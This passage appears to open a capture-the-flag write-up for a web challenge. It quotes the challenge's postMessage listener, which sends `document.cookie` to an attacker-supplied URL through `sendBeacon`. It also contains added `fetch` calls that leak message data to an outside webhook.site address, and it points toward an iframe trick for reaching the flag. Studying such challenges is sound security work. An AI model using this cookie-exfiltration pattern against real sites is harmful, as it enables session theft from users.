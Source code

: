 Straight away I had an idea doing a grandparent iframe (will elaborate later on) trick which I read about on some chineese blog months ago. Suprised I remembered of it straight away tbh :) .


Analytics directory included source code for analytics website. 

`integrate.html`
```javascript
 <script>
        const TRUSTED_ORIGINS = [/*TRUSTED_ORIGINS*/]; // [web:1337,analytics:3000]

        function isTrustedOrigin(origin) {
            return TRUSTED_ORIGINS.includes(origin);
        }

        window.addEventListener('message', (event) => {
            console.log("event.origin",event.origin)
            console.log("event.data",event.data)
            fetch("	https://webhook.site/311ca385-1ffd-4d1b-86a7-2445430ef288/?42line")
            if (!isTrustedOrigin(event.origin)) {
                fetch("	https://webhook.site/311ca385-1ffd-4d1b-86a7-2445430ef288/?failorigin=" + event.origin)
                console.warn('Rejected message from untrusted origin:', event.origin);
                return;
            }

            if (!event.data || typeof event.data !== 'object') {
                fetch("	https://webhook.site/311ca385-1ffd-4d1b-86a7-2445430ef288/?faildata=" + event.data)
                console.warn('Invalid message format received');
                return;
            }

            if (event.data.analytics && event.data.url) {
                if (isTrustedOrigin(event.origin)) {
                    console.log("event.origin")
                    navigator.sendBeacon(event.data.url, JSON.stringify({"analytics-tracking-cookies": document.cookie, "url": event.data.url}));
                }
            }
        });

        if (window.parent) {
            window.parent.postMessage({
                payload: 'Integration successful :D'
            }, '*'); 
        }
    </script>
```

We can see here that the code also has a post message listener, and if there is a check that sends a postMessage to the parent.

Whats interesting is the message listener, if it passes all checks it sends a request to a url provided via post message and cookie with it. Which is probably the way of requiring the flag at the end.
